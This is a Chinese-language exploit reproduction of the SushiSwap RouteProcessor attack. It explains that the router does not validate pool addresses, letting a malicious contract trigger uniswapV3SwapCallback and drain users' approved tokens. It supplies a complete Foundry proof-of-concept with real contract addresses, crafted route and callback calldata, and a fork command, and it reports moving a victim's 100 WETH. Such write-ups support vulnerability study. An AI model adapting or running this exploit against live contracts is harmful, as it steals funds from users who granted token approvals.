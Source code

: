 # SUSHI攻击复现

## 1.参考资料

https://phalcon.xyz/tx/eth/0x04b166e7b4ab5105a8e9c85f08f6346de1c66368687215b0e0b58d6e5002bc32

漏洞较为简单，通过上述交易能够知道漏洞成因，今天中午发生的攻击

## 2.漏洞成因

https://twitter.com/SlowMist_Team/status/1644936375924584449

​	sushi没有校验pool地址，且可外部传入pool的地址，攻击者可以把恶意合约的地址传进来当作pool地址，然后Router会调用恶意合约的swap函数，恶意合约的swap函数再调用Router的uniswapV3SwapCallback函数，这个函数可以将授权过的用户资金转入msg.sender，但这个时候的msg.sender是恶意合约，攻击者成功盗取用户资金。漏洞合约仅部署了四天，未造成太大范围的资金损失。

利用过程：

1.恶意合约调用processRoute函数，传入的route包含了恶意合约本身的地址

![image-20230409203900123](sushi-poc.assets/image-20230409203900123.png)

![image-20230409204059577](sushi-poc.assets/image-20230409204059577.png)

2.processRoute函数调用恶意合约的swap函数，恶意合约的swap参数再次调用漏洞合约的uniswapV3SwapCallback函数，构造的data参数包含了WETH代币的地址，会执行最后一行代码，成功转账

![image-20230409203927049](sushi-poc.assets/image-20230409203927049.png)

![image-20230409204330252](sushi-poc.assets/image-20230409204330252.png)

## 3.利用POC

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url <your own RPC> --fork-block-number 17006100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface Sushi{
    function processRoute(
    address tokenIn,
    uint256 amountIn,
    address tokenOut,
    uint256 amountOutMin,
    address to,
    bytes memory route
  ) external payable  returns (uint256 amountOut);

  function uniswapV3SwapCallback(
    int256 amount0Delta,
    int256 amount1Delta,
    bytes calldata data
  ) external;
}

interface WETH{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}



contract ContractTest is Test{
    function setUp() public {

    }

// 4830262616
    address sushiRoute = address(0x044b75f554b886A065b9567891e45c79542d7357);
    address weth = address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    address weth2 = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function swap(
            address recipient,
            bool zeroForOne,
            int256 amountSpecified,
            uint160 sqrtPriceLimitX96,
            bytes calldata data
    ) external returns (int256 amount0, int256 amount1){
        Sushi(address(sushiRoute)).uniswapV3SwapCallback(1000000000000000000,0,hex"000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc200000000000000000000000031d3243cfb54b34fc9c73e1cb1137124bd6b13e1");
        return (0,0);
    }
    function testattack() public {
        console.log("before: ",WETH(address(weth2)).balanceOf(address(this)));
        bytes memory data = hex"01514910771af9ca656af840dff83e8264ecf986ca010000017fa9385be102ac3eac297483dd6233d62b3e1496000000000000000000000000000000000000000000";
        Sushi(address(sushiRoute)).processRoute(address(weth),0,address(weth),0,address(0),data);
        console.log("after: ",WETH(address(weth2)).balanceOf(address(this)));
    }

}
```



## 4.复现结果

成功将受害者的100WETH转到攻击合约中。

![image-20230409203802175](sushi-poc.assets/image-20230409203802175.png)



